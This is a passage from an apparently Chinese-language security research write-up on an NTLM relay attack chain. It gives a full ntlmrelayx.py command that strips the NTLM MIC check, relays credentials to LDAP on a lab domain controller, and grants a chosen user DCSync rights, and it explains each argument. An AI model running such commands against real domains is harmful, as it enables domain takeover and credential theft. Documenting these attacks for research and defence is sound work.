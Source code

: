 整个利用链如图所示：

<img src="3e8dc6bed970e573e491daee56c28454.png" alt="截图" style="zoom:150%;" />

首先在安全研究员机器 10.211.55.2 执行如下命令进行监听：

```
python3 ntlmrelayx.py --remove-mic --escalate-user hack -t ldap://10.211.55.4 -smb2support --no-dump -debug
```

参数含义如下：

-  --remove-mic 参数用于绕过 NTLM 的 MIC 消息完整性校验
-  –escalate-user 参数用于赋予指定用户 Dcsync 权限
-  -t 参数将认证凭据中继到指定 ldap
-  -smb2support 参数用于支持 SMB2 协议
-  --no-dump 参数表示获得 Dcsync 权限后不 dump 域内哈希
-  -debug 参数用于显示日志信息

如图所示，安全研究员运行命令进行监听：

![截图](009624df22b9ba7fc82d5d2a26241743.png)
